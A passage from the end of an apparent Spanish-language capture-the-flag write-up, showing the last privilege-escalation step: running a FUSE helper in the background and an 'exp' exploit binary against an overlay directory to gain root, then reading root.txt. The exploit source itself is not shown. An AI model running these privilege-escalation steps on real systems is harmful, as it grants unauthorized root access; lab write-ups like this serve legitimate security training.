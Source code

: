 Como se explica en el `README.md` ejecutamos el `fuse` en segundo plano (con el `&` al final) y luego `exp`

```
./fuse ./ovlcap/lower ./gc &
./exp
```

Ahora ya somos **root**, ya podemos leeer el `root.txt`.

```
cd /root
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.